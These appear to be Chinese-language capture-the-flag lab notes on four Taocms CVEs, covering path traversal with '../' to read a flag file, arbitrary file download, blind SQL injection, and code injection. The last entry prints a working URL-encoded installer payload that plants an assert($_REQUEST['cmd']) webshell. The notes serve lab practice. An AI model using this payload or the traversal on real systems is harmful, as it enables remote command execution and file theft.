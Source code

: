 ## CVE-2021-46203 Taocms v3.0.2 任意文件读取

*靶标介绍：*

Taocms v3.0.2 path参数存在漏洞造成任意文件读取

文件管理里面利用 ../../../../../../ 点击下载 下载flag.htm

![image-20230714115008201](%E9%9D%B6%E5%9C%BA.assets/image-20230714115008201.png)

## CVE-2021-44983 Taocms 3.0.1 登陆后台后文件管理处存在任意文件下载漏洞

*靶标介绍：*

taocms 3.0.1 登陆后台后文件管理处存在任意文件下载漏洞

老洞通杀 不说了。。。



## CVE-2021-44915 Taocms 3.0.2 存在sql盲注

*靶标介绍：*

Taocms 3.0.2 存在sql盲注

用前面的sql注入





## CVE-2019-7720 Taocms < 3.0.1 存在代码注入漏洞

*靶标介绍：*

taocms < 3.0.1 存在代码注入漏洞

```
db=Mysql&db_name=%7C127.0.0.1%3A3306%7Croot%7Croot%7Ccms%7C');assert($_REQUEST['cmd']);//&tb=test&Submit=%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E5%BC%80%E5%A7%8B%E5%AE%89%E8%A3%85%E5%85%8D%E8%B4%B9%E5%BC%80%E6%BA%90%E7%9A%84taoCMS%E7%B3%BB%E7%BB%9F
```
